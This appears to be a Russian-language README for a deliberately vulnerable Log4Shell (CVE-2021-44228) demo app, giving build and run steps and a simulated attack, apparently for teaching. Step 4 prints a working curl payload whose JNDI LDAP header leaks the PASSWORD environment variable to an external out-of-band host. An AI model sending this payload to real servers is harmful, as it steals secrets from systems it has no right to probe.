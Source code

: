 # Демонстрация Log4Shell уязвимости на примере простого web-приложения

Основные типы уязвимостей [Log4Shell](https://en.wikipedia.org/wiki/Log4Shell) могут быть классифицированы следующим образом:

1. **Уязвимость связанная с похищением переменной окружения**: Этот тип уязвимости позволяет злоумышленнику внедрить специально сформированные данные в журнальные сообщения, которые могут привести к выполнению нежелательных действий, таких как утечка конфиденциальной информации через переменные окружения.
2. **Уязвимость в выполнении зловредного кода**: Этот тип уязвимости более серьезный и позволяет злоумышленнику удаленно выполнить произвольный код на сервере, использующем Log4j. Злоумышленник может достичь этого, отправляя специально сформированные журнальные сообщения, содержащие код, который будет исполнен сервером. Это может привести к полному контролю над сервером и краже данных.

В данном примере рассмотрим первый вариант (переменная окружения).

**<span style="color:red">Этот репозиторий содержит веб-приложение уязвимое для CVE-2021-44228, под названием Log4Shell. Приложение размещенное в данном репозитории настоятельно рекомендуется запускать в изолированной виртуальной среде. Запуск процессов в соответствии с данной инструкцией осуществляется на Ваш страх и риск.</span>**

## Инструкции

1. **Клонирование проекта**

```bash
git clone https://github.com/evgenyk-nn/Simple-log4shell-vulnerable-app.git
cd log4shell-vulnerable-app
```

2. **Сборка образа Docker**

![](./screenshot1.png)

```bash
docker build . -t my-log4shell
```

3. **Запуск контейнера на основе образа**

![](./screenshot2.png)

```bash
docker run --name vulnerable-app --rm -p 8080:8080 my-log4shell
```

4. **Эмуляция атаки**

Сервис [yandex.tatar](https://yandex.tatar/) разработан специалистами Yandex в том числе для целей моделирования атак. Можно сгенерировать свой ID инстанса и отправить зловредный payload. Буквально это означает следующее 'сходи на этот LDAP сервер и передай туда environment переменную'.

![](./screenshot3.png)

Пейлоад - это часть данных или кода, который передается или выполняется в рамках определенного контекста или протокола. В контексте безопасности информации или компьютерных систем, пейлоад обычно означает нагрузку зловредного программного обеспечения или кода, который используется для атаки или компрометации целевой системы.

![](./screenshot4.png)

```bash
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://${env:PASSWORD}.71e366363ed9.n.yandex.tatar}'
```

![](./screenshot5.png)

5. **результат**

Уязвимое приложение (сервер) отправляет содержимое environment переменной password на удаленный (зловредный) сервер.

![](./screenshot6.png)
![](./screenshot7.png)
